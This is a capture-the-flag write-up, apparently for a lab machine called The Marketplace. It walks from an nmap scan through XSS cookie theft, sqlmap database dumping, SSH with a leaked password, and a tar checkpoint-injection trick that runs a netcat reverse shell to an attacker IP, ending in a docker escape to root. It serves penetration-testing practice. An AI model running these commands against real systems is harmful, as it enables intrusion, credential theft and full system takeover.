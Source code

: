 ### nmap result

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
|_  256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
80/tcp open  http    nginx 1.19.2
|_http-server-header: nginx/1.19.2
|_http-title: The Marketplace
| http-robots.txt: 1 disallowed entry 
|_/admin
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### account register and login

We can add a `New listing` and see that the description is vulnerable to `XSS`

We then see that there is a `Report listing to admins` we can try if we can steal the admin's cookie by using this python script.

https://github.com/R0B1NL1N/WebHacking101/blob/master/XSS-cookie-stealer.py

We then got the admin cookie and we will change our current cookie with the admin cookie and refresh the page, we should be able to access `/admin` page.

We can then see that it is vulnerable to `SQLi`, we will use the tool `sqlmap`

`sqlmap http://10.10.192.112/admin?user=1 --cookie='token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2OTg5Njk1MTZ9.gAAvVUB2hm1KH4t-ntczzAvjaegy_gGwBDOPpUEgLLc' --technique=U --delay=2 -dump`

We are able to fetch the `marketplace` database

```
+----+--------------------------------------------------------------+----------+-----------------+
| id | password                                                     | username | isAdministrator |
+----+--------------------------------------------------------------+----------+-----------------+
| 1  | $2b$10$83pRYaR/d4ZWJVEex.lxu.Xs1a/TNDBWIUmB4z.R0DT0MSGIGzsgW | system   | 0               |
| 2  | $2b$10$yaYKN53QQ6ZvPzHGAlmqiOwGt8DXLAO5u2844yUlvu2EXwQDGf/1q | michael  | 1               |
| 3  | $2b$10$/DkSlJB4L85SCNhS.IxcfeNpEBn.VkyLvQ2Tk9p2SDsiVcCRb4ukG | jake     | 1               |
| 4  | $2b$10$8nuW.CddjAlmOPd67Xk.YeM.7PawLxgu1KCQ0F4enU2wQkqq9l2Ui | test     | 0               |
+----+--------------------------------------------------------------+----------+-----------------+
```

We also see the `messages` table

```
+----+---------+---------+-----------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | is_read | user_to | user_from | message_content                                                                                                                                                                                   |
+----+---------+---------+-----------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | 1       | 3       | 1         | Hello!\r\nAn automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password.\r\nYour new password is: @b_ENXkGYUCAv3zJ     |
| 2  | 1       | 4       | 1         | Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace! |
| 3  | 1       | 4       | 1         | Thank you for your report. We have reviewed the listing and found nothing that violates our rules.                                                                                                |
+----+---------+---------+-----------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
```

We see on the table above that a SSH account's password was changed and generated a password `@b_ENXkGYUCAv3zJ`

Base on the `user_to` it is tagged as `3`, the username and password box, we see that the `id 3` is the user `jake`, we will now try to ssh using the account and see if it will work.

and it works.

`jake@the-marketplace:~$ whoami
jake`

We will run `sudo -l` to check if the account can run any command with sudo.

```
jake@the-marketplace:~$ sudo -l
Matching Defaults entries for jake on the-marketplace:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
```

We will create a reverse shell using `msfvenom`

```
msfvenom -p cmd/unix/reverse_netcat lhost=10.6.48.114 lport=9001 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 97 bytes
mkfifo /tmp/fkobab; nc 10.6.48.114 9001 0</tmp/fkobab | /bin/sh >/tmp/fkobab 2>&1; rm /tmp/fkobab
```

then on the ssh connection, we will move to `/opt/backups/`

and follow these commands that we got from GTFOBins.

```
ake@the-marketplace:/opt/backups$ echo 'mkfifo /tmp/fkobab; nc 10.6.48.114 9001 0</tmp/fkobab | /bin/sh >/tmp/fkobab 2>&1; rm /tmp/fkobab' > shell.sh
jake@the-marketplace:/opt/backups$ ls
backup.sh  backup.tar  shell.sh
jake@the-marketplace:/opt/backups$ echo "" > "--checkpoint-action=exec=sh shell.sh"
jake@the-marketplace:/opt/backups$ echo "" > --checkpoint=1
jake@the-marketplace:/opt/backups$ sudo -u michael /opt/backups/backup.sh
Backing up files...
tar: /opt/backups/backup.tar: Cannot open: Permission denied
tar: Error is not recoverable: exiting now
jake@the-marketplace:/opt/backups$ chmod 777 backup.tar shell.sh 
jake@the-marketplace:/opt/backups$ sudo -u michael /opt/backups/backup.sh
```

We also need to open a listener to our machine, once we run the `sudo` command we should be able to get a connection.

```
└─# nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.6.48.114] from (UNKNOWN) [10.10.192.112] 42212
id
uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)

```

We can see that the user `michael` is part of `docker` group.

Checking GTFOBins again, we can see that we can use docker to escalate our privilege.

#### Shell
It can be used to break out from restricted environments by spawning an interactive system shell.

The resulting is a root shell.

`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

We see that it works and we got root!

```
michael@the-marketplace:/opt/backups$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
t /mnt shn -v /:/mnt --rm -it alpine chroot
# id
id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
```

